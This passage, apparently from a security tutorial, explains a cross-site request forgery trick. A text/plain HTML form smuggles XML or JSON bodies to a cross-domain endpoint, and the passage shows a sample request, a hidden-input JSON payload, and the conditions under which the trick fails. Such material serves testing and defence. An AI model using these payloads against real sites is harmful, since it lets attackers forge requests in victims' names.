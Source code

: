```http
POST /vuln.php HTTP/1.1
Content-Type: text/plain

<?xml version="1.0"?><data><param>foo</param></data>
```

🔥 That’s valid XML — sent cross-domain — **without JavaScript or XHR**.

---

### 🔥 Bonus: Works for Other Formats Too (JSON, Binary, etc.)

As long as you can:

* Get **at least one `=`** in your payload
* Control both name and value around it

You can smuggle:

* JSON
* YAML
* Serialized binary formats
* etc.

#### Example (injecting into JSON):

```json
{ "name": "John", "email": "a@b.com", "comment": "=" }
```

Use:

```html
<input type="hidden" name='{ "name": "x",' value='"email":"a@b.com", "comment": "=" }'>
```

---

### ⚠️ Limitation:

This method **forces the request's Content-Type to `text/plain`**

If the server:

* Rejects requests with wrong `Content-Type`
* Or parses `application/xml`/`application/json` strictly

→ This technique **won’t work**.

---

### ✅ Pro tip:

**Always test** if the target endpoint works when the Content-Type is downgraded:

```http
Content-Type: text/plain
```
